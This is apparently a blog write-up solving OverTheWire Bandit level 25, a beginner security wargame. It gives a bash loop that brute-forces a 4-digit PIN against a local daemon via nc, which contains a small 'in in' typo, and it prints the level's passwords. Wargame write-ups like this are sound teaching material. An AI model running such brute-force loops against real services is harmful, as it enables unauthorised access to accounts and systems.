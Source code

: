 I recently solved the Bandit wargame(http://overthewire.org/wargames/bandit/) at OverTheWire, the primary aim of which is to give a headstart to absolute beginners in security. Although the solutions of Level 0-24 are widely available on the internet, Level 25 and 26 were added recently. They are tougher than the previous ones and have not many guides as to how to solve them. Here are hints and solutions for the same.

#Level 25
http://overthewire.org/wargames/bandit/bandit25.html

The problem does not require a hint as such as it is obvious that you have to write a script that brute forces the password. Your script should concatenate the password for level 24 and a 4 digit number(along with a space) and send it to the daemon on port 30002. If the 4 digit number matches you are given the password. My shell script for the same was this

```
for i in in {0000..9999}
do
	a="$(echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" | nc localhost 30002 2>&1)";
	if echo $a | grep -q "Correct";
	then
		echo $a;
		break;
	else
		echo "nope";
	fi;
done
```

Remember, you have to execute this script after SSHing into bandit24. The script echos the password of bandit24 and a 4 digit number to the port 30002, as to why I included `2>&1` can be read here : http://stackoverflow.com/questions/15391254/save-result-to-variable . If the response from the port contains *Correct* I break the script and echo the response from the daemon which contains the password for the bandit25, if not I just echo a *nope*.

Turns out the correct number is `5669` and the password for the next level is `uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG`.

#Level 26
To be added soon    
